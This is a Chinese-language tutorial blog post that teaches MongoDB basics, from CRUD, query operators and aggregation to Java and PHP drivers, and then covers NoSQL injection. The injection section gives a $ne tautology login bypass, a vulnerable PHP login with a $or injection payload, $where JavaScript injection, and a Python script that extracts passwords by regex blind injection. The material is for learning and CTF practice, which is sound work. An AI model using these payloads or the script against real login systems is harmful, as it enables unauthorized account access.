

概述
Nosql并不特定的指某个数据库，而是泛指非关联型数据库
+++
+++
关系型数据库和非关系型数据库
关系型数据库，是指采用了关系模型来组织数据的数据库。
简单来说就是以二维表格模型及其之前的联系组成的数据库
除开关系型，不以数据间联系组成的数据库，统称为非关系型，代表为MongoDB
非关系型数据库严格上不是一种数据库，应该是一种数据结构化存储方法的集合。
+++
++++
参考文章https://www.jianshu.com/p/fd7b422d5f93
nosql主要针对了非关系型数据库，其中代表主要为MongoDB和redis，所以需要学习这两个数据库的语法
MongoDB 基础语法
基础须知语法
MongoDB是以文档的形式来储存数据的数据库，所以对MongoDB而言，数据库即为当前操作的文档，表即为该文档的数据集合，数据以键值对的形式储存在集合中。
db - 显示当前数据库对象或集合/相当于mysql的 database();
show dbs - 显示所有数据库 相当于 show databases;
use 【库名】 - 数据库不存在，则创建数据库，否则切连接并换到指定数据库
属于mysql中use 和 create database 的二合一
use后的数据库并不会立即创建，而是在插入数据后才创建
如果没有指定数据库，会自动存放在默认的test数据库中
使用用户名和密码连接到 MongoDB 服务器，必须使用 'username:password@hostname/dbname' 格式
默认情况下直接mongo就可以
db.dropDatabase() - 删除数据库，使用该命令需要先用use指定数据库
use atmujie
db.dropDatabase()
db.createCollection("集合名/表名",{ 参数【可选】}) - 创建集合/表
db.createCollection("mycol", { capped : true, autoIndexId : true, size : 6142800, max : 10000 } )
capped 如果为 true，则创建固定集合。固定集合是指有着固定大小的集合，当达到最大值时，它会自动覆盖最早的文档。
autoIndexId 3.2 之后不再支持该参数。（可选）如为 true，自动在 _id 字段创建索引。默认为 false。
size 为固定集合指定一个最大值，即字节数。如果 capped 为 true，也需要指定该字段。
max 指定固定集合中包含文档的最大数量。
show collections - 查看当前表中的所有集合，这里支持使用show tables来查集合
db.[集合名].drop() - 删除集合
db.[集合名].insert({"key": "value"}) - 插入数据
同时mongo规定 save()插入数据
save()：如果 _id 主键存在则更新数据，如果不存在就插入数据。
该方法3.2版本中已废弃，可以使用 db.collection.insertOne() 或 db.collection.replaceOne() 来代替。
insert(): 若插入的数据主键已经存在，不保存当前数据。
insertOne和replaceOne具体用法见图1
db.[集合名].find() - 查看该表/集合下的所有数据，括号写条件可查询指定数据
db.col.find().pretty()方法以格式化的方式来显示所有文档。
见图二
变量写入： document = ({
.......
});
db.[集合名].insert() //这可真方便开发
更新文档/行: db.[集合名].update(
{},//update的查询条件，类似sql update查询内where后面的。
{},//update的对象和一些更新的操作符（如$set,$inc...）等，也可以理解为sql update查询内set后面的
{
upsert: ,
//可选，这个参数的意思是，如果不存在update的记录，是否插入objNew,true为插入，默认是false，不插入。
multi: ,
//可选，mongo默认只更新找到的第一条记录，如果这个参数为true,就把按条件查出来多条记录全部更新。
writeConcern:
//可选，抛出异常的级别。
}
)
// 例： db.mujie.update({"name":"mujie"},{$set:{"age":"20"}})
更新全部： db.[集合名].save({"_id" : ...}) // 替换_id的全部内容
db.[集合名].remove({条件}，{选项}) - 删除文档
db.[集合名].remove({}) - 删除全部 相当于mysql truncate
MongoDB查询语句详解
语法：db.collection.find(query, projection)
- query ：可选，使用查询操作符指定查询条件
- projection ：可选，使用投影操作符指定返回的键。查询时返回文档中所有键值， 只需省略该参数即可（默认省略）。
查询操作符
db.collections.find({
"key":"value", // 等于
"key":{$lt:"value"}, // 小于
"key":{$lte:"value"}, // 小于等于
"key":{$gt:"value"}, // 大于
"key":{$gte:"value"}, // 大于等于
"key":{$ne:"value"} // 不等于
})
AND 条件
db.collections.find(
{
"name":"atmujie",
"age":20
}
)
返回两者都满足的数据
相当于where name="mujie" and age=20
OR语句
db.collections.find(
$or:[{"name":"mujie"},{"age":20}]
)
使用关键字$or
相当于where name=”mujie” or age=20
// and or 联合使用
db.collections.fond(
{"name":"mujie"},
$or:[{"age":20},{"age":"14"}]
)
相当于 where name=”mujie” and (age=20 or age=14)
$type操作符
$type基于类型来检索数据
和大于小于等于一致，同属于操作符
db.mujie.find({"name":{$type:"string"}})
// 查询key为name时的所有字符数据
Limit()方法与Skip()方法
同mysql的limit,mongodb中同样用limit指定显示的记录
db.mujie.find().limit(1)

Skip()方法用于跳过指定量的数据
db.mujie.find().Skip(1)
MongoDB中大多数命令可以联合使用
排序 sort()方法
sort() 方法可以通过参数指定排序的字段，并使用 1 和 -1 来指定排序的方式，其中 1 为升序排列，而 -1 是用于降序排列。
db.collections.find().sort({KEY:1})

索引
+++
+++
创建索引
db.collections.createIndex({"key":1/-1})
1 为指定按升序创建索引，-1 为降序
db.mujie.totalSize("_id_")
db.mujie.dropIndex("name_1")
对于每一个集合（除了capped集合），默认会在_id字段上创建索引，而且这个特别的索引不能删除。_id字段是强制唯一的，由数据库维护。
聚合
用于处理数据(诸如统计平均值，求和等)，并返回计算后的数据结果。，类似 SQL 语句中的 **count(*)**。
db.col.aggregate(AGGREGATE_OPERATION)
++++
管道
操作
+++
语法详解
db.col.aggregate(
[{
$group:{
_id:"$name",
a:{
$last:"$age"
},
b:{
$first:"$age"
}
}
}]
)
aggregate(
$管道符:{
_id:"$key1", // 必须，设定一个key为主键，按该值将数据分组
自定义key:{$操作符:"$key2"}, // 可选，将指定的key2进行操作符指示的处理后赋值给自定义的key
自定义key....
}
)
相当于mysql: select name,count([符合操作的数据]) form users group by name;
到这里nosql注入中MongoDB语法掌握的东西就差不多了
起码注入不会有太多问题
编程语言连接MongoDB
JAVA
在java中使用MongoDB首先哟啊安装JDBC驱动
其次导入mongo jar包
org.mongodb
mongo-java-driver
3.12.10
//连接数据库
import com.mongodb.MongoClient;
import com.mongodb.client.MongoDatabase;
public class MongoDBJDBC{
public static void main( String args[] ){
try{
// 连接到 mongodb 服务
MongoClient mongoClient = new MongoClient( "localhost" , 27017 );
// 连接到数据库
MongoDatabase mongoDatabase = mongoClient.getDatabase("mycol");
System.out.println("Connect to database successfully");
}catch(Exception e){
System.err.println( e.getClass().getName() + ": " + e.getMessage() );
}
}
}
PHP
安装MongoDB扩展看https://www.runoob.com/mongodb/mongodb-install-php-driver.html
// php7连接MongoDB
<?php
// 连接数据库
$mongo = new MongoDB\Driver\Manager() or die("连接MongoDB失败");
// 插入数据【增】
$mongoInsert = new MongoDB\Driver\BulkWrite();
$mongoInsert->insert(["name"=>"admin","passwd"=>"你问我我问谁","emm"=>"php7的MongoDB怎么和java有一拼"]);
$mongo->executeBulkWrite('atmujie.mujie',$mongoInsert);
// 删除数据【删】
$mongoDelete = new MongoDB\Driver\BulkWrite();
$mongoDelete->delete(["name"=>"admin"],["limit"=>1]); // limit为1删除匹配的第一条，为0删除配的全部，默认0
$mongo->executeBulkWrite('atmujie.mujie',$mongoDelete);
// 更新数据【改】
$mongoUpdate = new MongoDB\Driver\BulkWrite();
$mongoUpdate->update(["name"=>"admin"],["name"=>"admin","age"=>1]); // update三个参数，name、age、选项
$mongo->executeBulkWrite('atmujie.mujie',$mongoUpdate);
// 查询数据【查】
$mongoQueery = new MongoDB\Driver\Query([]); // 查询条件,相当于find()方法,[]表示查询全部
$queryResult = $mongo->executeQuery('atmujie.mujie',$mongoQueery); // 执行查询
foreach ($queryResult as $res){
$json = json_encode($res);
echo $json,"\n";
// print_r($res); // 输出数据
}
nosql注入
nosql的本质就是注入，所以注入的方法和mysql并没有什么区别，只是语法不同所以注入的技巧不同
永真式
其他文章也叫他重言式，我感觉永真顺口，就叫永真了
简单来说就是传入条件判断符，使查询条件永远伪真
<?php
const TEXT = 'atmujie.mujie';
$mongo = new MongoDB\Driver\Manager();
$这是用户输入 = ["username"=>"admin","password" => "admin"];
$query = new MongoDB\Driver\Query($这是用户输入);
$res = $mongo->executeQuery(TEXT,$query);
foreach ($res as $i){
echo json_encode($i)."\n";
}
<?php
const TEXT = 'atmujie.mujie';
$mongo = new MongoDB\Driver\Manager();
$这是恶意输入 = ["username"=>"admin","password" => ['$ne' =>"1"]];
$query = new MongoDB\Driver\Query($这是恶意输入);
$res = $mongo->executeQuery(TEXT,$query);
foreach ($res as $i){
echo json_encode($i)."\n";
}
所谓永真/重言，就是这样
永真进阶
这部分先知社区称为联合查询，但我认为这仍然算是永真，联合查询或许可以达成，但不是这种
+++
+++
上面是先知的讲解，但这种构造思路只在php7以下起效，php7版本要求查询语句的错误更为明显
<?php
const TEXT = 'atmujie.mujie';
$mongo = new MongoDB\Driver\Manager();
$username = $_POST["username"];
$password = $_POST["password"];
$这是用户输入 = "{\"username\":\"".$username."\",\"password\":\"".$password."\"}";
$a = (array)json_decode($这是用户输入);
$query = new MongoDB\Driver\Query($a);
$res = $mongo->executeQuery(TEXT,$query);
foreach ($res as $i){
echo json_encode($i)."\n";
}
如果代码如上所示，很容易产生nosql注入
username=admin","$or":[{},{"a":"a&password=}],"$comment":"111
&password=admi

js代码注入
这里我也不是很熟悉，主要是不会js,所以这里只能简单的写一写原理
在 MongoDB 中，$where 操作符可以用来执行 JavaScript 代码
db.users.find({ $where: "function(){return(this.username == 'whoami')}" })
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
使用$where关键字执行js代码，这里相当于执行了db.users.find({"username":"whoami"})
这里几乎可以做到js做的到的所有事情
盲注
MongoDB 使用 $regex 操作符来设置匹配字符串的正则表达式。
MongoDB使用PCRE (Perl Compatible Regular Expression) 作为正则表达式语言。
语法：
db.mujie.find({name:{$regex:"mujie"}})
db.mujie.find({name:/mujie/})
// 判断字符数
db.mujie.find({username:"Atmujie",password:{$regex:".{1}"}})
// 注意，$regex只能匹配字符串类型
// 盲注
db.mujie.find({username:"Atmujie",password:{$regex:"1.{5}"}})
+++
# 简单的盲注脚本，出自先知社区
import requests
import string
password = ''
url = 'http://192.168.226.148/index.php'
while True:
for c in string.printable:
if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:
# When the method is GET
get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
# When the method is POST
post_payload = {
"username": "admin",
"password[$regex]": '^' + password + c
}
# When the method is POST with JSON
json_payload = """{"username":"admin", "password":{"$regex":"^%s"}}""" % (password + c)
#headers = {'Content-Type': 'application/json'}
#r = requests.post(url=url, headers=headers, data=json_payload) # 简单发送 json
r = requests.post(url=url, data=post_payload)
if 'Login Success' in r.text:
print("[+] %s" % (password + c))
password += c
大体道这里就算是完成入门了，剩下的也只有自己找题练习
![极客大挑战2021wp-Web[部分]](/medias/featureimages/10.jpg)